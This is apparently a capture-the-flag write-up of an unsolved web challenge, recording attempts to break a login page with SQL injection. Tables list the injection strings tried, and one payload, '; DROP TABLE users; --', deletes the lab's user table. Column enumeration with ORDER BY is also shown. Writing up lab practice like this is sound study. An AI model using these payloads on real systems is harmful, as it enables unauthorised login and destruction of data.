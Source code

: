 # Task 35- Uninterrupted Problem Supply (Unsolved)
Category: Web

Points: 30*

*No points where earned 

[Challange](#Challange)

[Solve](#Solve)

[Flag](#Flag)

# Challange
"Virelia simply loves buying devices from Mechacore. Their most recent acquisition is a UPS unit. Mechacore promised the login page was 100% secure. Let's see if it can keep us out."

Website URL: http://<target_ip>

# Solve
Going to the target ip url showed a login page. Testing the waters I tried:
- username: admin 
- password: admin 

This threw the message "invalid username or password". This meant that there was no way to test if the individual username or password is wrong. 

![Screenshot 2025-06-27 201245](https://github.com/user-attachments/assets/204c6281-a0bb-4a3d-bc48-f69fb8cc9dc4)

Asking ChatGPT for help, I got my next steps.

Step 1 was to try common username and password combinations. I kept getting the same invalid message, so I moved on.
- Admin, admin
- Admin, password
- Root, root
 
Step 2 involved trying SQL injections. Trying {‘1’=’1’} (without the { }) yielded a new error message. 

"Database error: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1'='1''' at line 1"

I now knew for a fact that there was an SQL server on the backend that did not have input validation. I asked ChatGPT and did some Googling for injections that I could try.

*I only tried the usernames and left password blank (only a space)

| Username | Error |
| --- | --- |
| '1'='1 | database error |
| ' OR '1'='1' -- | Database error, same as above |
| ' OR '1'='1' # | invalid username or password |
| admin' -- | Database error |
| ' | database error |
| '-- | database error |
| test' | database error |
| a' OR 1=1-- | database error |
| admin' # | invalid error |
| " or ""=" | invalid error |

For the next round of attempts I tried injecting into the username and password fields at the same time.

*inputted both into username and password

| Username & Password | Error |
| --- | --- |
| ' OR 1=1 -- | database error |
| ' or '1'='1 | invalid error |
| " or ""=" | invalid error |

Not getting new information, I decided to try a different approch.

| Username | Password | Error |
| --- | --- | --- |
| admin') --  | hello | invalid error |
| ' OR 1=1';drop table user-- | *a single space | database error |
| ' OR ‘1’=’1;drop table user-- | *a single space | invalid |

What do I know?
- Works: ending with ‘--’, word the single quote (test’), '1'='1
- Doesn’t: double quotes, ending with #, ending with ') --, leaving the username blank and injecting into the password

6/29/25- the next day

Opening Burpsuite, I caught login package and sent it to the to repeater. This allowed me more freedom to input different things that where blocked before.
- username=&password= (both inputs left blank), Result: database error
- username=’; DROP TABLE users; --&password=, Result: invalid error

Something odd happened after I ran the DROP TABLE users command.
- Username=’’&password=, Result: class="error">Database error: 1146 (42S02): Table &#39;industrial_system.users&#39; doesn&#39;t exist

![Screenshot 2025-06-29 154528](https://github.com/user-attachments/assets/34a63284-5f1b-4bf6-a604-d8731186d0b2)

After resetting the target machine, I reran the same inputs for the username and password. This time there was an invalid error.

ChatGPT helped me figure out there are 3 columns (started with ‘ ORDER BY 1 -- and added 1 intel it stopped giving me invalid error).

![Screenshot 2025-06-29 155717](https://github.com/user-attachments/assets/e58d9832-dd0f-4e22-9330-88c5ea9c2344)

What do I know?
- The table is named 'users' and there are 3 columns (names not known)
- Works: injecting into the username, single quotes, not putting anything into the password field
- Doesn’t: double quotes, ending with #, ending with ') --, leaving the username blank and injecting into the password

At this point I quit this challange and moved on. My teammates and myself were not able to find the flag.

# Flag
MISSING












